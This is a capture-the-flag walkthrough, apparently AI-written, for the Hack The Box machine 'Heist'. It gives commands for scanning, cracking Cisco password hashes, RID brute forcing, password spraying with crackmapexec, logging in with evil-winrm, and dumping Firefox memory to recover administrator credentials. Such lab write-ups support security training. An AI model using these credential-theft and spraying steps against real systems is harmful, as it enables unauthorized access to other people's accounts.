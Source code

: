 Here’s a structured, walkthrough-style command note for **HTB: Heist**, organized by attack phase:

---

# 🧠 HTB: Heist – Walkthrough

## ⚙️ Recon

**Nmap Scan**
```bash
nmap -p- --min-rate 10000 -oA nmap-alltcp 10.10.10.149
```
- Port 80: HTTP Web Portal

---

## 🌐 [Web Enumeration](HTTP)

**Browse Web Portal**
- Navigate to: `http://10.10.10.149`
- Found a **Guest login** → displayed usernames and an **attachment** with Cisco password hashes.

---

## 🔓 Cracking Hashes

### 🧩 Type 5 Hash
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

### 🧩 Type 7 Hash
Use online Cisco Type 7 decoder (e.g. https://insecure.org/sploits/cisco.password.decoder.html)

---

## 👤 User Enumeration

**RID Brute Force with [CrackMapExec](SMB.md)**
```bash
crackmapexec smb 10.10.10.149 --rid-brute
```

**Password Spray**
```bash
crackmapexec smb 10.10.10.149 -u usernames.txt -p crackedpass
```

---

## 🔐 Gaining Remote Access

**Connect via Evil-WinRM or WinRM manually**
```bash
evil-winrm -i 10.10.10.149 -u ch4rl3s -p [cracked_password]
```

🎉 Found `user.txt` in `C:\Users\ch4rl3s\Desktop`

---

## 🕵️ Investigating the System

**Check files**
```powershell
Get-ChildItem -Path C:\Users\ch4rl3s\Documents\
type C:\Users\ch4rl3s\Documents\todo.txt
```

**Enumerate Processes**
```powershell
Get-Process | where { $_.Path -like "*firefox*" }
```

---

## 📦 Dumping and Analyzing Firefox Memory

**Dump Process Memory**
```powershell
procdump64.exe -ma firefox_pid firefox.dmp
```

**Transfer to attacker machine**
- Use SMB or upload via Evil-WinRM.

**Analyze Memory**
```bash
strings firefox.dmp | grep -i password
```
🎯 Recovered admin credentials!

---

## 🚀 Escalating to Administrator

**Reuse credentials with Evil-WinRM**
```bash
evil-winrm -i 10.10.10.149 -u administrator -p [discovered_password]
```

🎉 Grab `root.txt` from `C:\Users\Administrator\Desktop\`

---

## ✅ Conclusion

- Web app led to leaked Cisco hashes
- Cracking hashes enabled password spray
- Dumped Firefox process memory to recover admin creds
- Completed full escalation path!